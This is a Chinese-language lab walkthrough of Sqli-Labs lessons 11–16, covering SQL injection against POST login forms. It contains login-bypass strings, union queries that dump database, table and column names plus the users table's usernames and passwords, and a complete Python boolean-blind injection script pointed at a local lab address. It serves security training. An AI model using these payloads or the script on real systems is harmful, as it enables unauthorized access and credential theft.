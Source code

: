 ### 一、Introduction
从Less-11开始就是使用post请求的登录了，一般场景模式设置为登录，我使用的工具是postman,谷歌的一个插件也可以下载为本地的一个软件，还是很不错的
### 二、hack
#### Less-11
先试试万能密码
```
admin ' or 1=1#
1
```
发现登录成功了
<!--more-->
![](Sqli-Labs-Less-11-16-POST注入/1.png)
然后查看字段数目和显示位
```
1' order by 3 # //登录后报错
1' union select 1,2 # //两个登录位
```
然后可以使用任意一个登录位来爆数据库
```
1' union select 1,group_concat(schema_name) from information_schema.schemata#
```
![](Sqli-Labs-Less-11-16-POST注入/2.png)
然后爆数据表名，字段名，和第一题差不多了
```
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#
123' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #
111' union select group_concat(username),group_concat(password) from users #
```
#### Less-12
通过尝试和报错信息发现输入1") or 1 #后可以用万能密码登录，接下来同上
```
1") union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#
1") union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #
1") union select group_concat(username),group_concat(password) from users #
```
#### Less-13
万能密码测试发现
```
1') or 1#
```
能登录成功，但是不回显，所以可以布尔注入或者时间盲注 ，我们发现登录成功出现的照片名字叫flag.jpg,而登录失败叫slap.jpg，所以可以通过这个线索来爆破
```python
#!/usr/bin/env python
# encoding:utf8

import requests
import time
import sys

# config-start
sleep_time = 5
error_time = 1
# config-end

def getPayload(indexOfResult, indexOfChar, mid):
	# admin' or ()-- 
	column_name="schema_name"
	table_name="schemata"
	database_name="information_schema"
	payload = "((ascii(substring((select " + column_name + " from " + database_name + "." + table_name + "  limit " + indexOfResult + ",1)," + indexOfChar + ",1)))>" + mid + ")"
	payload = {"uname":"')or (" + payload + ")-- ","passwd":"admin"}
	return payload

def exce(indexOfResult,indexOfChar,mid):
	# content-start
	url = "http://192.168.1.140/sqli-labs-master/Less-13/"
	postData = getPayload(indexOfResult,indexOfChar,mid)
	content = requests.post(url, data=postData).text
	# content-end
	# judge-start
	if "<img src=\"../images/flag.jpg\"   />" in content:
		return True
	else:
		return False
	# judge-end

def doubleSearch(indexOfResult,indexOfChar,left_number, right_number):
	while left_number < right_number:
		mid = int((left_number + right_number) / 2)
		if exce(str(indexOfResult),str(indexOfChar + 1),str(mid)):
			left_number = mid
		else:
			right_number = mid
		if left_number == right_number - 1:
			if exce(str(indexOfResult),str(indexOfChar + 1),str(mid)):
				mid += 1
				break
			else:
				break
	return chr(mid)

def search():
	for i in range(32): # 需要遍历的查询结果的数量
		counter = 0
		for j in range(32): # 结果的长度
			counter += 1
			temp = doubleSearch(i, j, 0, 128) # 从255开始查询
			if ord(temp) == 1: # 当为1的时候说明已经查询结束
			    break
			sys.stdout.write(temp)
			sys.stdout.flush()
		if counter == 1: # 当结果集的所有行都被遍历后退出
			break
		sys.stdout.write("\r\n")
		sys.stdout.flush()

search()
```
#### Less-14
与13题差不多 把`')` 改为 `"`即可
```
1" or 1=1#
```
登录成功不回显，魔改上面脚本即可
#### Less-15
与13题差不多 把`')` 改为`'`即可
```
1' or 1=1#
```
登录成功不回显，魔改上面脚本即可
#### Less-16
与13题差不多 把`')` 改为`")`即可
```
1") or 1=1#
```
登录成功不回显，魔改上面脚本即可

[下一篇-11~16题详解](README4.md)
更多介绍？
[https://kit4y.github.io/tags/Sql-Injection/](https://kit4y.github.io/tags/Sql-Injection/)